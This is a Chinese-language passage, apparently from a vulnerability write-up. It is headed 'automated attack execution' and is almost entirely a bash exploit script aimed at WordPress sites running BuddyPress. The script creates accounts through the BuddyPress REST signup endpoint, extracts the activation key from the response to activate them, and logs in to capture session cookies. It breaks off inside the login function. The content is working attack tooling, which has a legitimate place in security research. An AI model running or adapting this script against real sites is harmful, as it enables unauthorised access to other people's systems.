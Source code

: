 ### (五) 自动化执行攻击
1. **利用脚本**
```bash
#!/bin/bash

# 生成随机字符的函数
random_char() {
    local length=$1
    cat /dev/urandom | tr -dc 'a-zA-Z' | fold -w "$length" | head -n 1
}

# 注册函数
register() {
    local url=$1
    local username=$2
    local password=$3

    local email="$(random_char 7)@test.com"
    local data="{\"user_login\":\"$username\",\"user_email\":\"$email\",\"user_name\":\"$username\",\"password\":\"$password\"}"

    response=$(curl -s -X POST "$url/wp-json/buddypress/v1/signup" \
        -H "Content-Type: application/json; charset=UTF-8" \
        -d "$data" \
        -w "%{http_code}")

    status_code=${response: -3}
    response_body=${response::-3}

    if [ "$status_code" -eq 500 ]; then
        echo "[-] 用户名已存在！"
        echo "[+] 尝试登录该用户名 ...."
        login "$url" "$username" "$password"
    elif [ "$status_code" -eq 404 ]; then
        echo "[-] 无法注册，因为注册功能已禁用！"
        exit 1
    else
        activation_key=$(echo "$response_body" | jq -r '.[0].activation_key')
        curl -s -X PUT "$url/wp-json/buddypress/v1/signup/activate/$activation_key" > /dev/null
    fi
}

# 登录函数
login() {
    local url=$1
    local username=$2
    local password=$3

    cookies_file=$(mktemp)

    response=$(curl -s -c "$cookies_file" -X POST "$url/wp-login.php" \
        -d "log=$username" \
        -d "pwd=$password" \
        -w "%{http_code}" \
        -o /dev/null)

    if [ "$response" -ne 302 ]; then
        echo "[-] 登录失败！"
        rm "$cookies_file"
        exit 1
    fi

    echo "$cookies_file"
```